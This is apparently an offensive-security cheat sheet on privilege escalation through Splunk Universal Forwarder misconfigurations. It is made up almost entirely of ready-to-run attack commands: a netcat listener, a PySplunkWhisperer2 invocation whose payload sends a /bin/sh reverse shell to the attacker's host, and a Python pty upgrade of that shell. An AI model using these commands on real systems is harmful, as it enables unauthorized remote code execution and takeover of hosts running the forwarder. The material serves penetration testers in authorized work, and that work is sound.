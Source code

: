 # Privilege escalation

### Run listner

```text
nc -nlvp 4444
```

### Local privilege escalation, or remote code execution, through Splunk Universal Forwarder \(UF\) misconfigurations.

```text
python PySplunkWhisperer2_remote.py --host <remote_host> --lhost <local_host> --username <*******> --password <***********> --payload 'nc.traditional -e/bin/sh '<local_host>' '<localport>''
```

### Spawn a process, and connect its controlling terminal with the current process’s standard io.

```text
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Ref: [https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/)

